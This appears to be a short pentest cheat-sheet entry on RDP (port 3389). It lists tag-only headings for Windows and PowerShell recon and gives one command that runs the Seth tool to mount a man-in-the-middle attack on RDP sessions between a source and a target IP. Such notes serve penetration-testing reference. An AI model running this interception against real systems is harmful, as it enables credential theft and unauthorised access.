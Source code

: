 # windows
% rdp, windows, 3389
#plateform/windows  #target/local  #protocol/rdp #port/3389 #cat/RECON 

# powershell
% rdp, windows, 3389
#plateform/windows  #target/local  #protocol/rdp #port/3389 #cat/RECON  #tag/powershell 


# seth
#plateform/linux #target/remote #protocol/rdp #port/3389 #cat/ATTACK/MITM 

## rdp mitm attack
```
sudo ./seth.sh <interface> <Attacker-IP> <RDP-SOURCE-IP> <RDP-TARGET-IP>
```
